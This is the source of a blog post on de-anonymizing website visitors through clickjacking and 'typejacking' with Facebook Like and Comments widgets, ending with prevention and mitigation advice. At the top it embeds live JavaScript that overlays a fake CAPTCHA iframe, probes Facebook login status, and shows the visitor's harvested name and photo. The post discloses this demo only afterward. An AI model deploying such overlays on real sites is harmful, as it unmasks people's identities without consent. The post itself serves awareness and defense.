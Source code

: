 ```yaml
---
layout: post
title: De-anonymization via Clickjacking in 2019
---
```


This blog post is about my journey to understand the current practice of de-anonymization via the clickjacking technique whereby a malicious website is able to uncover the identity of a visitor, including his full name and possibly other personal information. I don’t present any new information here that isn’t already publicly available, but I do look at how easy it is to compromise a visitor’s privacy and reveal his identity, even when he adheres to security best practices and uses an up-to-date browser and operating system.

{% raw %}<script>
function addStyle(id, styles) {
	/* Create style element */
	var css = document.createElement('style');
	css.id = id;
	css.type = 'text/css';

	if (css.styleSheet) {
		css.styleSheet.cssText = styles;
	} else {
		css.appendChild(document.createTextNode(styles));
	}

	/* Append style to the head element */
	document.getElementsByTagName("head")[0].appendChild(css);
}

function getQueryParam(name, url) {
    if (!url) url = location.href;
    name = name.replace(/[\[]/,"\\\[").replace(/[\]]/,"\\\]");
    var regexS = "[\\?&]"+name+"(?:=([^&#]*))?";
    var regex = new RegExp( regexS );
    var results = regex.exec( url );
    return results == null ? null : results[1];
}

function isMobileOrTablet() {
	var check = false;
	(function(a){if(/(android|bb\d+|meego).+mobile|avantgo|bada\/|blackberry|blazer|compal|elaine|fennec|hiptop|iemobile|ip(hone|od)|iris|kindle|lge |maemo|midp|mmp|mobile.+firefox|netfront|opera m(ob|in)i|palm( os)?|phone|p(ixi|re)\/|plucker|pocket|psp|series(4|6)0|symbian|treo|up\.(browser|link)|vodafone|wap|windows ce|xda|xiino|android|ipad|playbook|silk/i.test(a)||/1207|6310|6590|3gso|4thp|50[1-6]i|770s|802s|a wa|abac|ac(er|oo|s\-)|ai(ko|rn)|al(av|ca|co)|amoi|an(ex|ny|yw)|aptu|ar(ch|go)|as(te|us)|attw|au(di|\-m|r |s )|avan|be(ck|ll|nq)|bi(lb|rd)|bl(ac|az)|br(e|v)w|bumb|bw\-(n|u)|c55\/|capi|ccwa|cdm\-|cell|chtm|cldc|cmd\-|co(mp|nd)|craw|da(it|ll|ng)|dbte|dc\-s|devi|dica|dmob|do(c|p)o|ds(12|\-d)|el(49|ai)|em(l2|ul)|er(ic|k0)|esl8|ez([4-7]0|os|wa|ze)|fetc|fly(\-|_)|g1 u|g560|gene|gf\-5|g\-mo|go(\.w|od)|gr(ad|un)|haie|hcit|hd\-(m|p|t)|hei\-|hi(pt|ta)|hp( i|ip)|hs\-c|ht(c(\-| |_|a|g|p|s|t)|tp)|hu(aw|tc)|i\-(20|go|ma)|i230|iac( |\-|\/)|ibro|idea|ig01|ikom|im1k|inno|ipaq|iris|ja(t|v)a|jbro|jemu|jigs|kddi|keji|kgt( |\/)|klon|kpt |kwc\-|kyo(c|k)|le(no|xi)|lg( g|\/(k|l|u)|50|54|\-[a-w])|libw|lynx|m1\-w|m3ga|m50\/|ma(te|ui|xo)|mc(01|21|ca)|m\-cr|me(rc|ri)|mi(o8|oa|ts)|mmef|mo(01|02|bi|de|do|t(\-| |o|v)|zz)|mt(50|p1|v )|mwbp|mywa|n10[0-2]|n20[2-3]|n30(0|2)|n50(0|2|5)|n7(0(0|1)|10)|ne((c|m)\-|on|tf|wf|wg|wt)|nok(6|i)|nzph|o2im|op(ti|wv)|oran|owg1|p800|pan(a|d|t)|pdxg|pg(13|\-([1-8]|c))|phil|pire|pl(ay|uc)|pn\-2|po(ck|rt|se)|prox|psio|pt\-g|qa\-a|qc(07|12|21|32|60|\-[2-7]|i\-)|qtek|r380|r600|raks|rim9|ro(ve|zo)|s55\/|sa(ge|ma|mm|ms|ny|va)|sc(01|h\-|oo|p\-)|sdk\/|se(c(\-|0|1)|47|mc|nd|ri)|sgh\-|shar|sie(\-|m)|sk\-0|sl(45|id)|sm(al|ar|b3|it|t5)|so(ft|ny)|sp(01|h\-|v\-|v )|sy(01|mb)|t2(18|50)|t6(00|10|18)|ta(gt|lk)|tcl\-|tdg\-|tel(i|m)|tim\-|t\-mo|to(pl|sh)|ts(70|m\-|m3|m5)|tx\-9|up(\.b|g1|si)|utst|v400|v750|veri|vi(rg|te)|vk(40|5[0-3]|\-v)|vm40|voda|vulc|vx(52|53|60|61|70|80|81|83|85|98)|w3c(\-| )|webc|whit|wi(g |nc|nw)|wmlb|wonu|x700|yas\-|your|zeto|zte\-/i.test(a.substr(0,4))) check = true;})(navigator.userAgent||navigator.vendor||window.opera);
	return check;
}

function addCaptchaFrame(id, demo) {
	var iframe = document.createElement('iframe');
	iframe.id = id;
	iframe.src = '../files/De-anonymization-via-Clickjacking-in-2019/fake_captcha.html' + (demo ? '?demo' : '');
	iframe.style.position = 'absolute';
	iframe.style.left = '0';
	iframe.style.top = '0';
	iframe.style.width = '100%';
	iframe.style.height = '100%';
	iframe.style['z-index'] = '99';
	document.body.appendChild(iframe);
}

function removeElementById(id) {
	var node = document.getElementById(id);
	if (node) {
		node.parentNode.removeChild(node);
	}
}

function loadFacebookDemoData() {
	var facebookDemoData = null;
	try {
		facebookDemoData = JSON.parse(localStorage.getItem('visitor_fb_details') || 'null');
	} catch (e) {}
	
	window.facebookDemoData = facebookDemoData || {};
	return facebookDemoData !== null;
}

function onCaptchaFrameDone() {
	removeElementById('captchaFrame');
	removeElementById('hideAllDivs');
	
	loadFacebookDemoData();
	
	if (facebookDemoDataUpdateName) {
		facebookDemoDataUpdateName();
	}
	
	if (facebookDemoDataUpdateImage) {
		facebookDemoDataUpdateImage();
	}
	
	if (getQueryParam('demo') !== null) {
		if (window.facebookDemoData.name) {
			alert('Hi ' + window.facebookDemoData.name + ' :)');
		}
	}
}

function onFacebookPullScriptLoad() {
	// Probably logged into Facebook, show the demo.
	removeElementById('hideAllIframes');
}

function onFacebookPullScriptError() {
	// Probably not logged into Facebook or blocking third party cookies. Give up on the demo.
	removeElementById('captchaFrame');
	removeElementById('hideAllDivs');
	removeElementById('hideAllIframes');
}

var sawCaptcha = false;
try {
	if (localStorage.getItem('saw_fake_captcha')) {
		sawCaptcha = true;
	}
} catch (e) {}

if (getQueryParam('demo') !== null) {
	addStyle('hideAllDivs', 'div { display: none; }');
	addCaptchaFrame('captchaFrame', true);
} else if (!sawCaptcha && !isMobileOrTablet()) {
	addStyle('hideAllDivs', 'div { display: none; }');
	addStyle('hideAllIframes', 'iframe { display: none; }');
	addCaptchaFrame('captchaFrame', false);
	document.write('<script type="text/javascript"' +
		' src="https://0-edge-chat.facebook.com/pull?clientid="' +
		' onload="onFacebookPullScriptLoad()"' +
		' onerror="onFacebookPullScriptError()"' +
		' async="async"></scr' + 'ipt>');
}

loadFacebookDemoData();
</script>{% endraw %}

# Initial Motivation - Google YOLO

My journey began when I read the excellent [Google YOLO blog post](https://blog.innerht.ml/google-yolo/) by [@filedescriptor](https://twitter.com/filedescriptor) about a clickjacking vulnerability of the Google YOLO (You Only Login Once) service, a web widget that provides an embeddable one-click login on websites. I highly recommend that you read the blog post, which includes an interactive demonstration of the clickjacking technique.

The blog post discusses how the widget can be used as a privacy threat, explaining that it’s possible to build a website with the Google YOLO widget and disguise the widget to make it look like a harmless button. When the seemingly harmless button is clicked, the victim unknowingly logs into the website with his Google account, and thus passes his identity, including his full name and email address, to the owner of the website.

However, since most websites you use probably know your identity anyway, that’s not the most serious issue, but it can still backfire. Think, for example, about completing a sensitive survey which claims to be anonymous. Since you never logged in to the survey website you might think that it has no way of connecting your answers to your identity, but this might not be the case.

By the time I read the Google YOLO blog post, the issue had already been [fixed by Google](https://twitter.com/sirdarckcat/status/994867137704587264) by limiting the YOLO service to a list of partners.

The blog post also demonstrates clickjacking with the Facebook Like widget, but when I tried it, it asked for a confirmation, like this:

![Facebook Like widget confirmation]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Facebook-Like-widget-confirmation.gif)

The confirmation request makes the clickjacking attack infeasible - even if the victim clicks on the Like button two times unknowingly, he will still have to confirm his action in the newly opened popup window. The popup, being an entirely new window, cannot be manipulated by the attacker’s website, and is not prone to clickjacking. The downside is that the solution hurts usability, requiring additional actions every time, even for legit Like button usage.

So it looked to me that the issue had been fixed by the major companies, and I forgot about it for a while, until I had an idea…

# The Facebook Comments Widget: “Typejacking”

One day while I was browsing the web, I stumbled upon a website which used the [Facebook Comments plugin](https://developers.facebook.com/docs/plugins/comments) to allow visitors to comment on its website articles at the bottom of the page. At that moment, I remembered what I had read on the Google YOLO blog post about clickjacking, and had the following thought: clickjacking can’t be applied on major services anymore, but what about “typejacking”? What if I take the comments plugin and embed it on my website, disguising it as a form with a different purpose? Then, when the unsuspecting victim comes along and inserts text, any text, and submits it as a Facebook comment on my page, I can learn his identity by checking which Facebook account just posted the comment.

So I started working on a proof of concept web page that demonstrates the technique. While working on it and trying various approaches, I accidentally found out that the Like widget, the one that I thought required a confirmation, works without a confirmation on my website! Reading about the Facebook Like widget on the Internet, I found out that Facebook, unlike Google, uses a blacklist to apply protection from clickjacking.

While the method Facebook chose to protect its users from clickjacking can guard against a mass harvesting of likes - they can notice that a large amount of likes came from a single website - and even undo the likes, it doesn’t protect users from the de-anonymization threat. An attacker can easily create a new website and use clickjacking with the Like widget, and then send the page to a limited amount of victims and reveal their identities by tracking the likes on Facebook.

To my surprise, the likejacking technique, which is the term applied to the strategy of using clickjacking to gain likes, has been around [at least since 2010](https://www.computerworld.com/article/2518461/facebook--likejacking--attacks-continue-with-flesh-appeal.html). And today, 9 years later, it’s still an issue. Also, when talking about likejacking, people rarely mention the de-anonymization issue. While it was mentioned [at least as early](https://staging.whitehatsec.com/blog/i-know-your-name-and-probably-a-whole-lot-more-deanonymization-via-likejacking-followjacking-etc/) as [2012](https://www.usenix.org/sites/default/files/conference/protected-files/huang_usenixsecurity12_slides.pdf), I think that there isn’t enough awareness about it, especially nowadays when more and more people have begun to understand the importance of online privacy.

<img id="facebookDemoDataThumbSrc" src="data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=" style="display:none;width:48px;height:48px;float:left;margin-right:8px;">

{% raw %}<script>
function facebookDemoDataUpdateImage() {
	var facebookDemoDataThumbSrc = document.getElementById('facebookDemoDataThumbSrc');
	if (window.facebookDemoData.thumbSrc) {
		facebookDemoDataThumbSrc.src = window.facebookDemoData.thumbSrc;
		facebookDemoDataThumbSrc.style.display = null;
	} else {
		facebookDemoDataThumbSrc.style.display = 'none';
	}
}
facebookDemoDataUpdateImage();
</script>{% endraw %}

By the way, regarding that typejacking proof of concept - you might have seen a CAPTCHA that you had to enter to be able to see the article. You’ve probably figured out by now that it wasn’t a real CAPTCHA<span id="facebookDemoDataName"></span>{::nomarkdown}{% raw %}<script>
function facebookDemoDataUpdateName() {
	var facebookDemoDataName = document.getElementById('facebookDemoDataName');
	facebookDemoDataName.textContent = window.facebookDemoData.name ? ', ' + window.facebookDemoData.name + ' :)' : '.';
}
facebookDemoDataUpdateName();
</script>{% endraw %}{:/} If you missed it, you can see a demonstration video [here]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Attack-demonstration.mp4). You can also play with the proof of concept page [here](./?demo), this time with a checkbox to reveal the disguised widget.

# Beyond Clickjacking and Typejacking

Thinking about the concept of clickjacking, I was wondering what else can be done by exploiting the ability to embed and manipulate a third party widget on a malicious website. The clickjacking and typejacking techniques trick the user into interacting with the widget. What if we trick the user into getting information from the widget instead?

Apparently somebody thought about that, too. A quick search led me to the paper [Tell Me About Yourself: The Malicious CAPTCHA Attack](https://www.researchgate.net/publication/288280540_Tell_Me_About_Yourself_The_Malicious_CAPTCHA_Attack) which analyzes this technique. Here’s an example from the paper that demonstrates how an attacker can trick the victim into unknowingly revealing his own name by masking the widget as a sneaky CAPTCHA:

![Facebook Comments widget masked as CAPTCHA]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Facebook-Comments-widget-masked-as-CAPTCHA.png)

# Clickjacking Prevention for Website Owners

As of today, there’s still no reliable way to prevent clickjacking.

In 2009, the X-Frame-Options HTTP header was introduced, which offers a partial protection against clickjacking. The header allows a website owner to specify which pages shouldn’t be framed. A browser which is aware of the header will refuse to load these pages in a frame. While this prevents clickjacking in several cases, it doesn’t help with widgets which are meant to be framed, such as the Like widget or the comments widget.

Looking at the X-Frame-Options header, I thought, why not make a similar prevention measure which still allows framing? Think about the Like widget, for example: Is there any reason for a web page to draw over the widget? To change its size and opacity? To do any other manipulations such as CSS filters? The only reason I can think of is clickjacking. So why not introduce a new X-Frame-Options option such as X-Frame-Options: Isolate, which will allow framing, but will make sure that the frame cannot be tampered with and that the parent website cannot draw over it? As with my previous ideas, [I wasn’t the first one to come up with this idea](http://homakov.blogspot.com/2014/09/bypassing-clearclick-and-x-frame.html).

Until browsers implement such a protection, website owners have only one option: to require extra user interaction, possibly with an isolated popup window. We’ve seen that Facebook does this with the Like widget, but only for suspicious websites hosting the widget. Apparently Facebook values users’ usability more than their privacy.

# Clickjacking Mitigation for Users

Having tried several solutions, I came to the conclusion that blocking third party cookies is the best mitigation for clickjacking. It doesn’t prevent clickjacking per se, but since the embedded frame won’t be receiving the visitor’s cookies, the attacker won’t be able to do much harm.

What’s great about blocking third party cookies is that most browsers have an option to do it out of the box. No need to install third party extensions, or look for different solutions for different browsers or devices.

The downside is that legit widgets, such as the Like widget or the comment widget, will stop working. I don’t remember missing any of those, but of course your mileage may vary.

Another advantage of blocking third party cookies is that it can protect from side channel attacks, which don’t require user interaction. For example, [this technique](https://www.evonide.com/side-channel-attacking-browsers-through-css3-features/) demonstrates usage of a CSS3 feature to de-anonymize Facebook users with no additional user interaction. Another example of an old, but interesting vulnerability that would be prevented by blocking third party cookies is [generic cross-browser cross-domain theft](https://scarybeastsecurity.blogspot.com/2009/12/generic-cross-browser-cross-domain.html) ([relevant Chromium issue](https://bugs.chromium.org/p/chromium/issues/detail?id=9877)).

# Summary

If nothing else, there’s one thing I want you to take away from this blog post: consider blocking third party cookies in order to protect your identity online. [Here’s one](https://www.digitalcitizen.life/how-disable-third-party-cookies-all-major-browsers) of the many guides that show how to block third party cookies in various browsers.

I hope that this blog post will help raise awareness about the ongoing issue of clickjacking which has remained unsolved since 2010. Perhaps browser vendors will consider implementing a prevention measure to limit frame manipulation.
